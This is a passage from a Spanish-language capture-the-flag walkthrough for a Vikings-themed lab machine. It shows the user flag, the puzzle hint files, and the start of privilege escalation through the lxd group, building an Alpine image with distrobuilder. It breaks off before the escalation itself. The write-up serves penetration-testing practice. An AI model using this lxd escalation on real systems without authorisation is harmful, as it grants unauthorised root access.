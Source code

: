 Y ya estariamos dentro, si nos vamos a la carpeta de `/ragnar` leeremos la flag del `user`...

> user.txt (flag1)

```
4bf930187d0149a9e4374a4e823f867d
```

Si leemos el fichero `readme.txt` veremos lo siguiente...

```
_______________________________________________________________________Floki-Creation____________________________________________________________________________________________________


I am the famous boat builder Floki. We raided Paris this with our all might yet we failed. We don't know where Ragnar is after the war. He is in so grief right now. I want to apologise to him.
Because it was I who was leading all the Vikings. I need to find him. He can be anywhere. 
I need to create this `boat` to find Ragnar
```

Y en el fichero `boat` pone...

```
#Printable chars are your ally.
#num = 29th prime-number.
collatz-conjecture(num)
```

Si vemos los grupos a los que estamos asociados...

```shell
id
```

Info:

```
uid=1000(floki) gid=1000(floki) groups=1000(floki),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd)
```

Vemos que estamos en el grupo `lxd` por lo que escalaremos por ahi haciendo lo siguiente...

Estos comandos que haremos ahora los haremos en nuestro `host`...

```shell
#Tenemos que hacerlo todo siendo root
sudo su

#Install requirements
sudo apt update
sudo apt install -y git golang-go debootstrap rsync gpg squashfs-tools

#Clone repo
git clone https://github.com/lxc/distrobuilder

#Make distrobuilder
cd distrobuilder
make

#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml

#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.18
```
